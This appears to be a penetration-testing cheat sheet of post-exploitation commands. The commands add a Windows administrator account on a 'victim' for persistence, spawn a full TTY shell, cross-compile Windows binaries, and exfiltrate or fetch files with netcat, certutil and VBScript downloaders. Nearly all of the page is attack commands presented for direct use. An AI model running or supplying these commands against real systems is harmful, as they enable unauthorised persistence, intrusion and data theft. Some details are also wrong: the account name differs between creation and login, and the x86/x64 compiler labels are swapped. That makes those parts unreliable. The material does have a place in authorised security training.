 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++
```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#
```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

- SSH Copy (scp)
```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat
```bash
# Victim
nc -nvlp $RPORT > out.file

# Kali
nc -nv $RHOST $RPORT < in.file
```

- exe2bat
```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe
```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```